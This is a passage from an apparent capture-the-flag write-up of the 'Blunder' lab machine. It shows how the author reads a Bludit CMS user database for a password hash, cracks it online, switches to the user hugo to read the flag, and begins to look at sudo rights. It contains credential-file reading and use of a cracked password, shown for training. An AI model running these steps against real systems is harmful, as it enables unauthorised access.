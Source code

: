 ## Access to user hugo

There's another Bludit CMS installation in `/var/www/bludit-3.10.0a`

```
www-data@blunder:/var/www$ cat bludit-3.10.0a/bl-content/databases/users.php
cat bludit-3.10.0a/bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

The password hash can be cracked online with Crackstation or a similar site: `Password120`

```
www-data@blunder:/var/www$ su -l hugo
su -l hugo
Password: Password120

hugo@blunder:~$ cat user.txt
cat user.txt
4b411f0fc0e09a1091c6de87d1f91aaf
```

## Privesc

The sudoers privileges our user has don't appear to give us anything we can use since it explicitely blocks root.
```
hugo@blunder:~$ sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
